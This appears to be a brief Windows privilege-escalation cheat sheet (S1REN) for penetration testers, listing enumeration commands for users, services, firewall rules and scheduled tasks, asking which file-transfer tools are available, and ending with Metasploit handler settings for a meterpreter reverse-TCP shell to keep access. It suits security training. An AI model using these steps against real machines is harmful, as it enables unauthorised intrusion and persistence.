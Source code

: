 S1REN - Windows Privilege Escalation

**TL;DR**  
+  **WHOAMI**?  
whoami  
+  **CAN I DO SPECIAL THINGS**?  
WHOAMI /PRIV  
+  **SERVICES**  **-->**  SERVICES AT BOOT  **&**  SERVICES RAN THROUGH  **ICACLS**.**EXE**  
wmic service get name,startname  
NET START  
+  **NETWORK**  **CAPABILITIES?**  (CHECKS FOR 127)  
+  **SHELL**  **CAPABILITY**  **-->**  STAGED/NON-STAGED? FORMAT? ARCH? ENCODER? BIND/REVERSE?  
+  **SHELL**  **CAPABILITY**  **-->**  ENSURE CODE EXEC.  
+  **NETWORK CAPABILITY.**  
NETSTAT -ANOY  
+  **NET USERS**  (LATERAL MOVEMENT CAPABILITIES?)  
NET USERS  
NET LOCALGROUP  
NET USER <USERNAME> (AM I ADMIN? ANY SPECIAL GROUPS?)  
+  **ADMIN CAPABILITY?**  
NET LOCALGROUP ADMINISTRATORS  
+  **PERMITTED TRAFFIC**  **CAPABILITY**???  
netsh advfirewall firewall show rule name=**all**  
netsh advfirewall firewall show rule name=**inbound**  
netsh advfirewall firewall show rule name=**outbounD**  
+  **FILE TRANSFER CAPABILITY**???  
CERTUTIL?  
FTP?  
TFTP?  
VB?  
PS?  
SMB?  
NFS?  
+  **ANY SCHEDULED TASKS I/O OPERATIONS**?  
C:\ > schtasks /query /fo LIST /v > schtasks.txt  
+  **BINPATHS**?  
SC.EXE  
[  **+**  More to Come ]  
  
**Other Articles:**  
[https://www.fuzzysecurity.com/tutorials/16.html](https://www.fuzzysecurity.com/tutorials/16.html)  
[https://book.hacktricks.xyz/windows/windows-local-privilege-escalation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation)  
  
+  **Pro-tip - To prevent your shell from hanging as a result of any of these commands, prefix them with this!**  
cmd.exe /c <commands>  
cmd.exe /c start <commands>

  
+  **I just got shell on windows! What would S1REN do?**  
**-->**  Get a meterpreter shell.  
When it comes to a windows machine and receiving a low privilege shell - I do not mess around. I will always immediately work to maintain access and gain a more useful shell with meterpreter.  
msfconsole  
use exploit/multi/handler  
set PAYLOAD windows/meterpreter/reverse_tcp  
set LHOST <Attacking Machine IP>  
set LPORT <Listening Port>  
  